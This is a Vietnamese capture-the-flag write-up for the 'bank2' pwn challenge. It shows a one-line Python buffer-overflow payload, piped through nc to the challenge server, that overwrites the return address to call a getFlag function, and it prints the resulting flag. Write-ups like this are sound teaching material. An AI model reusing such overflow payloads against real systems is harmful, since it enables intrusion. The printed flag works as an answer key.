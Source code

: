 ## ⚡ [bank2](https://ctf.hcmus.edu.vn/challenges#bank2-9)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/50-pts-brightgreen.svg)](https://img.shields.io/badge/50-pts-brightgreen.svg)

Tác giả: `xikhud`

Tags: `pwn` `bof`

### Summary

Chạy thử chương trình thì thấy nó giống challange `bank1` trước đó, lần này thì ta có thêm file binary.

Tìm thấy hàm `getFlag` như sau:

```c
void getFlag(void)
{
  system("cat flag.txt");
  return;
}
```

Vậy ta chỉ cần lấy địa chỉ hàm này rồi overflow là xong.

```bash
$ objdump -t bank2 | grep getFlag
08048506 g     F .text  0000002b              getFlag
```

### Exploit

Overflow để đến được hàm `getFlag` với địa chỉ vừa lấy được:

```bash
$ python2 -c 'print "A"*80 + "\x06\x85\x04\x08"' | nc 61.28.237.24 30203
[+] Please enter your name: [+] Thanks for the registration, your balance is 1094795585.
HCMUS-CTF{little_endian_is_fun}
```

📫 Flag: **`HCMUS-CTF{little_endian_is_fun}`**

---
*[Back to table of contents](../README.md)*
